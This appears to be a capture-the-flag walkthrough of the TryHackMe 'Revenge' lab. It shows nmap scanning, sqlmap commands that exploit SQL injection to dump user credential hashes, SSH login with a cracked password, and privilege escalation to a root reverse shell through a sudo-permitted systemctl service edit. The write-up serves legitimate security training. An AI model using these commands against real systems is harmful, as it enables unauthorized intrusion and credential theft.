In this walkthrough, we'll go over a challenge (intermediate) level box called ***Revenge*** on [TryHackMe](https://tryhackme.com/room/revenge)



Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.90.135 --open
```
We see that a bunch of ports are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-19 09:22 EDT
Nmap scan report for 10.10.90.135
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:53:b7:7a:eb:ab:22:70:1c:f7:3c:7a:c7:76:d9:89 (RSA)
|   256 43:77:00:fb:da:42:02:58:52:12:7d:cd:4e:52:4f:c3 (ECDSA)
|_  256 2b:57:13:7c:c8:4f:1d:c2:68:67:28:3f:8e:39:30:ab (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Home | Rubber Ducky Inc.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.75 seconds
```


For this challenge, we can use BurpSuite to scan for any type of vulnerability:


And BurpSuite identifies a SQL injection vulnerability. We can now use sqlmap to extract more information:

We can pull the banner information `sqlmap -u http://10.10.90.135/products/1`:


We can pull the database information `sqlmap -u http://10.10.90.135/products/1 --dbs`:


listing available tables `sqlmap -u http://10.10.90.135/products/1 -D duckyinc --tables`:



listing available columns within the user table `sqlmap -u http://10.10.90.135/products/1 -D duckyinc -T user --columns`:


looking into "system_user" table `sqlmap -u http://10.10.90.135/products/1 -D duckyinc -T system_user --columns`:


We can now dump all the data from the system_user table `sqlmap -u http://10.10.90.135/products/1 -D duckyinc -T system_user -C _password,email,id,username --dump`:


username | email | password hash | password
----------- | --------- | ------------ | ----------
server-admin | sadmin@duckyinc.org | \$2a\$08\$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a | inuyasha
kmotley | kmotley@duckyinc.org | \$2a\$12\$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa | 
dhugles | dhughes@duckyinc.org | \$2a\$12\$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK

Since we have a set of valid credentials for server-admin user, we can try to SSH into the machine:


We can check what this user can run with "sudo -l" command and we see that server-admin could run /bin/systemct commands as root:


After that we edit "/tec/systemd/system/duckyinc.service"


We can now start a nc listener on port 5555 and on the command line run the following command to relaod and restart the service:
1. `sudo /bin/systemctl enable duckyinc.service`
2. `sudo /bin/systemctl daemon-reload`
3. `sudo /bin/systemctl restart duckyinc.service`



We now have a shell with the root user privileges.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
